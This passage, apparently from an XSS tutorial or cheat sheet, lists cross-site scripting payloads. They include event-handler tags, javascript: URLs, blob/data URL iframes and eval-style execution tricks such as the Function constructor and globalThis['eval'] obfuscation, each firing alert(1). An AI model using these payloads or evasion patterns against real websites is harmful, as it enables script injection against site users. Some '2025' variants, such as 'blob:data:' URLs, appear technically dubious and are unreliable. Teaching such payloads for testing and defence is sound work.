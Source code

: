 ```html
<details ontoggle=alert(1) open></details>
<video onloadstart=alert(1) src=x></video>
<audio oncanplay=alert(1) src=x></audio>
<dialog oncancel=alert(1) open></dialog>
```

### Pseudo-Handlers

Pseudo-handlers allow scripts to execute in URLs or other elements without an explicit event handler.

```html
<a href="javascript:alert(1)">Click me</a>
```

```html
<iframe src="javascript:alert(1)"></iframe>
```

**2025 Enhancement - Blob URLs:**

```html
<iframe src="blob:data:text/html,<script>alert(1)</script>"></iframe>
<object data="blob:data:text/html,<script>alert(1)</script>"></object>
```

### Eval and Similar Functions

Functions like `eval()`, `setTimeout()`, and CSS expressions allow code execution:

```javascript
eval('alert(1)');
setTimeout('alert(1)', 0);
```

**2025 Modern Alternatives:**

```javascript
// Using Function constructor
Function('alert(1)')();

// Using dynamic import with data URLs
import('data:text/javascript,alert(1)');

// Using globalThis for obfuscation
globalThis['eval']('alert(1)');

// Using Reflect.construct
Reflect.construct(Function, ['alert(1)'])();
```

---

## XSS Attack Vectors

XSS can be categorized based on how the payload is delivered and executed:
